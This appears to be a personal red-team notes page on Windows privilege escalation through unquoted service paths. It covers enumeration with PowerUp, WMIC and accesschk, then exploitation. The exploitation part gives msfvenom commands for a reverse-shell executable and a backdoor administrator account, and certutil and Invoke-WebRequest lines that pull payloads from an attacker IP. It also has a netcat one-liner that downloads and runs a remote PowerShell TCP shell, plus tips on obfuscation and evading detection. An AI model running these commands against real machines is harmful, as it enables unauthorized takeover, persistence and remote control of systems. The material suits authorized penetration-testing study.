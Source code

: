#### Tags: [[06 - Privilege Escalation (TA0004)]] 

## Overview | Service Misconfiguration

Unquoted Service Path exploitation Pre-requisite

	- PATH is not using Quotes and Contains Space
	- Writeable PATH: Users should have write access in one of the folders where the binary path resides
	- Executes as LocalSystem
	- Users should have the right to restart the Service
## Enumeration 

### Script Enumeration
- Import script in memory & Do not touch the disk
- PowerShell Script Obfuscation Tools: https://github.com/JoelGMSec/Invoke-Stealth
```markdown
# PowerUp Obfuscated
GitHub Fetch Scipt > Execute! 
[RT GitHub: PScriptsObs: Scripts Obfuscated via chameleon](https://github.com/raghavtalwar/PScriptsObs/)

# PS Scripts
*Winpeas*
.\winPEAS.exe quiet servicesinfo
*PowerUp*
powershell -c "Invoke-WebRequest -Uri https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1 -OutFile PowerUp.ps1"

powershell.exe -nop -exec bypass -c ". .\PowerUp.ps1;Get-UnquotedService"

powershell -c "Import-Module ./PowerUp.ps1; Write-ServiceBinary -Name SalesFarce -Path ./Sales.exe -Command '<POWERSHELL_STAGERCODE>'"

## Find them
powershell> Get-UnquotedService
powershell> Get-ModifiableServiceFile
powershell> Get-ModifiableService

# Execure a reverse shell or adding new user as administrator.
Write-ServiceBinary -name "Service_Name" -Path "C:\Service_name.exe"
Write-ServiceBinary -Name 'SalesFarce' -Path <HijackPath>
```
### Manual Enumeration
```
##  WMI (Powershell) ##
PS:> 
Get-WmiObject win32_service | select Name,PathName,StartMode,StartName | where {$_.StartMode -ne "Disabled" -and $_.StartName -eq "LocalSystem" -and $_.PathName -notmatch "`"" -and $_.PathName -notmatch "C:\\Windows"} | Format-List

##  Windows Management Instrumentation Command-Line (WMIC)  ##
CMD:> 
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```

```markdown
# Identfy service with weak permissions or unquoted paths 
CMD:> .\accesschk64.exe /accepteula -uwcqv studentuser ***
PS:> Get-WmiObject -Class win32_service | select pathname
	+ Look out for Service with Spaces and not having Quotes!

# Manually Query Service 
CMD:> sc qc "service_name"
PS:> cmd /c sc qc "BOOTP Turbo"

# AccessCHK - Sysinternals
## Check Write access to Directory under Unquoted Service PATH
C:\PrivEsc\accesschk.exe /accepteula -wuqvd "C:\Program Files\Unquoted Path Service\"
RW BUILTIN\Users
	FILE_ALL_ACCESS
# ICACLS - Inbuilt binary
icacls "<path>"
	**F**: Full control
	**M**: Modify
	**RX**: Read and execute
	**R**: Read-only
	**W**: Write-only
```

![[Pasted image 20240330234652.png]]
## Exploitation 
### Create Malicious Service
```markdown
# Add User Exploiation
msfvenom -p windows/adduser USER=backdoor PASS=backdoor -f exe > service.exe

# Reverse Shell Exploitation
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe
```
### Replace Service
#### Fetch the sales as a base64 BLOB and convert to EXE 
```markdown

base64 Sales.exe > Sales.pem

python3 -m http.server 8000

certutil -urlcache -split -f http://10.254.252.3:8000/Sales.pem c:\SalesFarce\sales.pem

del c:\SalesFarce\Sales.pem


```

### Start the service post modification of PATH
- Restart Service
	- `net stop <service>`
	- `net start <service>`
	or
	- `sc stop service_name
	- `sc start service_name`
- If unable to start the service try rebooting machine
	- `shutdown /r /t 0`

###### Red Team Tip | Operator
It's best to avoid writing files to disk, sometimes it is necessary. In those cases, keep track of those files that will become indicators of compromise. 
- Send the task to delete the files when you don't need them, but always do a directory listing to make sure the file did get deleted.
- Example: Delete your 

#### Notes | Bonus
- Create Links to this Page! 

##### # Transfer the Reverse Shell & !!IMP NOTE!!
- Example Full Path - 
    + `C:\Program Files\Unquoted Path Service\Common Files\jerry.exe`
- An attacker can exploit this vulnerability by placing a malicious executable named `Program.exe`, `Files.exe`, or `Unquoted.exe`
- Place Reverse Shell, as `Unquoted.exe` under Program Files Folder
- Or, Place `Common.exe` under the Unquoted Path Service Folder
- Thus, Place it one Dir < BEFORE > as when Service Control Manager
- SCM starts this service, it will look at the following PATH
    + It will run the EXE that it will FIND.

Thus, windows primarily searches for an executable file based on the path specified in the service's configuration, not by the service name.

##### Fetch the reverse.exe executable & Rename Correctly  >>  SMB
`copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
`Ren "C:\Program Files\Unquoted Path Service\Common.exe" Unquoted.exe
##### Fetch the reverse.exe executable & Copy Correctly  >>  HTTP
`IWR -Uri 'http://10.0.2.54:90/reverse.exe' -Outfile "BOOTP.exe"
`copy C:\Temp\BOOTP.exe "C:\Program Files\BOOTP.exe"

##### Spawn Powershell from Command Injection Vulnerability
`\\10.0.2.54\kali\nc.exe 10.0.2.54 443 -e "cmd.exe /c C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -ep bypass iex(new-object net.webclient).downloadstring('http://10.0.2.54/Invoke-PowerShellTcp.ps1')"`
	+ Bypass Execution Policy as well!